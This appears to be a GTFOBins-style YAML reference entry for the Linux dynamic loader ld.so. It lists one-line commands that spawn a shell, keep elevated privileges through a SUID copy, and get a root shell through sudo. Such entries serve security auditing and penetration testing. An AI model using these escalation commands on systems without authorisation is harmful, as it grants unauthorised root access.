 ```yaml
---
name: ld.so
description: |
  `ld.so` is the Linux dynamic linker/loader, its filename and location might change across distributions. The proper path is can be obtained with:

  ```
  $ strings /proc/self/exe | head -1
  /lib64/ld-linux-x86-64.so.2
  ```
functions:
  shell:
    - code: /lib/ld.so /bin/sh
  suid:
    - code: ./ld.so /bin/sh -p
  sudo:
    - code: sudo /lib/ld.so /bin/sh
---
```

